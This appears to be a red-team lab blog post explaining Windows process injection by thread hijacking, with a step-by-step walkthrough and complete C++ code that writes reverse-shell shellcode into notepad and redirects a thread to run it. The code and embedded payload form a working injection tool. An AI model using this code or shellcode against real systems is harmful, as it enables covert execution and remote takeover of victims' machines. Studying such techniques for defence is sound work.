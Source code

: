 ```yaml
---
layout: post
title: "injecting to remote process via thread hijacking"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-to-remote-process-via-thread-hijacking/
---
```


---
layout: post
title: "injecting to remote process via thread hijacking"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-to-remote-process-via-thread-hijacking/
---

# Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process (notepad in our case) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` (allocated in step 2), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process (notepad). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack (`threadHijacked`) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's (retrieved in step 6) instruction pointer (`RIP` register) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's (upadated in step 7) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's (notepad) main thread ID as seen in the below image:

![](<../../.gitbook/assets/image (609).png>)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](<../../.gitbook/assets/image (610).png>)

In step 6, that thread (TID `14100`) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](<../../.gitbook/assets/image (611).png>)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](<../../.gitbook/assets/image (612).png>)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](<../../.gitbook/assets/image (613).png>)

![](<../../.gitbook/assets/image (614).png>)

In step 10, once the hijacked thread (`threadHijacked`) is resumed, the shellcode is executed and a reverse shell is executed:

![](<../../.gitbook/assets/image (617).png>)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```
@spotheplanet
